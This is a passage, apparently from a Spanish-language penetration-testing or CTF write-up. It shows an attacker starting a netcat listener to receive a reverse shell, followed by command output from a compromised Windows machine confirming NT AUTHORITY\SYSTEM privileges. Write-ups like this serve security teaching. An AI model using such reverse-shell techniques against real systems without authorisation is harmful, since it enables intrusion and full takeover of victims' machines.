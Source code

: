 Solo hace falta ponerse  a la escucha dentro del equipo atacante.

```bash
nc -lvp 1234
```
{: .nolineno}

 
Y por arte de magia, se gana una shell de máximos privilegios dentro del equipo.


```bash
C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Documents and Settings

04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  08:48 PM    <DIR>          Administrator
04/12/2017  04:03 PM    <DIR>          All Users
04/12/2017  09:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)   1,324,064,768 bytes free

C:\Documents and Settings>whoami
whoami
nt authority\system
```
{: .nolineno}






